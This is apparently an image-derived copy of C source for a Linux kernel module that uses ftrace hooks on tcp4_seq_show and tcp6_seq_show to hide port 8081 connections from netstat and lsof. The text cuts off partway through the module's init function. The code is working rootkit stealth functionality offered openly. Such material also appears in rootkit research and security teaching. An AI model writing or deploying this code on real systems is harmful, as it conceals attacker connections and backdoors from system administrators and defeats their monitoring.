 Below is a code in C using the xcellerator lib ftrace_helper.h.

╔════════════════════════════════════════════════════════════════════════════╗
  #include <linux/init.h>
  #include <linux/module.h>
  #include <linux/kernel.h>
  #include <linux/syscalls.h>
  #include <linux/tcp.h>
  #include "ftrace_helper.h"

  #define PORT 8081               // Defines the port to be hidden (8081)

  MODULE_LICENSE("GPL");
  MODULE_AUTHOR("mtzsec");
  MODULE_DESCRIPTION("Hiding connections from netstat and lsof");
  MODULE_VERSION("1.0");

  static asmlinkage long (*orig_tcp4_seq_show)(struct seq_file *seq, void *v);
  static asmlinkage long (*orig_tcp6_seq_show)(struct seq_file *seq, void *v);

  static asmlinkage long hooked_tcp4_seq_show(struct seq_file *seq, void *v)
  {
      long ret;
      struct sock *sk = v;

      if (sk != (struct sock *)0x1 && sk->sk_num == PORT)
      {
          printk(KERN_DEBUG "Port hidden!\n");
          return 0;
      }

      ret = orig_tcp4_seq_show(seq, v);
      return ret;
  }

  static asmlinkage long hooked_tcp6_seq_show(struct seq_file *seq, void *v)
  {
      long ret;
      struct sock *sk = v;

      if (sk != (struct sock *)0x1 && sk->sk_num == PORT)
      {
          printk(KERN_DEBUG "Port hidden!\n");
          return 0;
      }

      ret = orig_tcp6_seq_show(seq, v);
      return ret;
  }

  static struct ftrace_hook new_hooks[] = {
      HOOK("tcp4_seq_show", hooked_tcp4_seq_show, &orig_tcp4_seq_show),
      HOOK("tcp6_seq_show", hooked_tcp6_seq_show, &orig_tcp6_seq_show),
  };


  static int __init hideport_init(void)
  {
      int err;
      err = fh_install_hooks(new_hooks, ARRAY_SIZE(new_hooks));
      if(err)
          return err;

